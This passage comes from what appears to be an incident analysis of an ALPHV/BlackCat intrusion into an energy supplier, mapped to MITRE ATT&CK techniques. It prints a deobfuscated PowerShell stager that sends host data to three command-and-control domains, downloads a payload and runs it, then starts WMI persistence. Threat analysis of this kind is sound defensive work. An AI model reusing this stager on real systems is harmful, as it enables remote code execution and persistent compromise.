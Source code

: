 **Analysis**: BlackCat leveraged trusted contractor relationships to bypass email security, deploying info-stealers to harvest VPN credentials for 17 different EVN suppliers [[69]](#ref69).

### Phase 2: Living Off the Land Techniques
**MITRE ATT&CK**: T1059.001 - PowerShell [[70]](#ref70)

#### PowerShell Empire Framework Usage
```powershell
# ALPHV PowerShell stager found in EVN environment
# Deobfuscated from base64 encoding
$ErrorActionPreference = "SilentlyContinue"

# Establish C2 channel
$c2_servers = @(
    "https://energy-update[.]net/api/v2",
    "https://grid-monitor[.]org/status",
    "https://power-analytics[.]com/health"
)

foreach ($server in $c2_servers) {
    try {
        $response = Invoke-WebRequest -Uri "$server/beacon" -Method POST `
            -Body ([System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-WmiObject Win32_ComputerSystem | ConvertTo-Json))))
        
        if ($response.StatusCode -eq 200) {
            $script = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($response.Content))
            Invoke-Expression $script
            break
        }
    } catch { continue }
}

# Persistence via WMI event subscription
$filterName = "EVNSystemMonitor"
$consumerName = "EVNSystemHandler"
$query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

$filterArgs = @{
    Name = $filterName
    EventNamespace = "root\cimv2"
    QueryLanguage = "WQL"
    Query = $query
}
```

### Phase 3: SCADA Network Discovery
**MITRE ATT&CK**: T0840 - Network Connection Enumeration [[71]](#ref71)
